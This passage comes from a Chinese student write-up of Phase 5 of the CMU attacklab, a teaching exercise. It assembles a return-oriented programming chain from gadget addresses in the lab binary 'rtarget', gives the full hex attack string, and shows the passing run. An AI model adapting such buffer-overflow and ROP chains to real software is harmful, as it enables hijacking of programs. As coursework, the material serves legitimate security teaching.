   因此汇编代码初步规划为：
   
   ```assembly
   mov    %rsp, %rdi  # %rdi = %rsp，存栈顶指针
   pop    %rsi  # 将栈中所得偏移量存入寄存器 %rsi 中
   lea    (%rdi, %rsi, 1), %rax  # %rax = %rdi + %rsi * 1，计算出 Cookie 地址
   mov    %rax, %rdi  # %rdi = %rax，计算出的 Cookie 地址存储到第一参数的寄存器 %rdi 中
   ret
   ```
   
   计算得到偏移量的大小为：`9 * 8 = 72 ` 字节，转换为 `16` 进制即为 `0x48` 字节，小端补零为 `48 00 00 00 00 00 00 00` （偏移量计算可详见**实验原理**中的栈帧示意图，**加粗方框**中的大小即蓝色字体为偏移量，红色字体为基址，绿色字体为计算出的 `Cookie` 所在地址）。
   
   从 `rtarget` 中整理出所有含 `pop` 、 `mov` 指令的代码：
   
   ```assembly
   movq   %rax, %rdi  # 0x401a25: 48 89 c7
   movq   %rsp, %rax  # 0x401ae8: 48 89 e0
   popq   %rax  # 0x401a3a: 58
   movl   %eax, %edi  # 0x401a26: 89 c7
   movl   %ecx, %edx  # 0x401b0c: 89 ca
   movl   %eax, %ecx  # 0x401b27: 89 c1
   movl   %edx, %esi  # 0x401a97: 89 d6
   movl   %esp, %eax  # 0x401a76: 89 e0
   ```
   
   修改汇编代码为：

   ```assembly
   movq   %rsp, %rax  # 0x401ae8: 48 89 e0
   movq   %rax, %rdi  # 0x401a25: 48 89 c7
   popq   %rax  # 0x401a3a: 58
   movl   %eax, %ecx  # 0x401b27: 89 c1
   movl   %ecx, %edx  # 0x401b0c: 89 ca
   movl   %edx, %esi  # 0x401a97: 89 d6
   lea    (%rdi, %rsi, 1), %rax  # 0x401a61
   movl   %rax, %rdi  # 0x401a25: 48 89 c7
   ret
   ```
   
   由 **Phase 3** 中得到的 `touch3` 的起始地址为 `0x401980` （小端补零为 `80 19 40 00 00 00 00 00` ），以及 `Cookie` 字符串的字节表示 `34 62 30 32 61 63 30 66 00` ，构造攻击文本：

   ```
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   e8 1a 40 00 00 00 00 00
   25 1a 40 00 00 00 00 00
   3a 1a 40 00 00 00 00 00
   48 00 00 00 00 00 00 00
   27 1b 40 00 00 00 00 00
   0c 1b 40 00 00 00 00 00
   97 1a 40 00 00 00 00 00
   61 1a 40 00 00 00 00 00
   25 1a 40 00 00 00 00 00
   80 19 40 00 00 00 00 00
   34 62 30 32 61 63 30 66 00
   ```
   
   执行 `cat 5.txt | ./hex2raw | ./rtarget -q` 得到正确结果：
   
   ```bash
   2020010942@hp:~$ cat 5.txt | ./hex2raw | ./rtarget -q
   Cookie: 0x4b02ac0f
   Type string:Touch3!: You called touch3("4b02ac0f")
   Valid solution for level 3 with target rtarget
   PASS: Would have posted the following:
           user id NoOne
           course  15213-f15
           lab     attacklab
           result  2020010942:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 E8 1A 40 00 00 00 00 00 25 1A 40 00 00 00 00 00 3A 1A 40 00 00 00 00 00 48 00 00 00 00 00 00 00 27 1B 40 00 00 00 00 00 0C 1B 40 00 00 00 00 00 97 1A 40 00 00 00 00 00 61 1A 40 00 00 00 00 00 25 1A 40 00 00 00 00 00 80 19 40 00 00 00 00 00 34 62 30 32 61 63 30 66 00 
   ```
   
4. **困难与心得**

   最开始试图用 **Phase 4** 的办法，一个个尝试可行的 `mov` 方案，后来发现可能性太多了，一个个搜起来太麻烦（如本题从 `%rax` 到 `%rsi` 就中间周转了 `2` 次，最差可能要试 `8 ^ 2 = 64` 种情况）；因为 `pop` 、`mov` 本身的字节指令有规律，完全可以在 `rtarget` 中将所有的 `pop` 、`mov` 指令都搜索出来，最后再根据全部出现的指令进行简单拼接。另外的，结合前几个 **Phase** 一起，对 `push` 、 `pop` 以及函数的 `ret` 指令有了更深刻的理解，知道了这些指令如何影响栈帧（影响栈顶指针）。

   

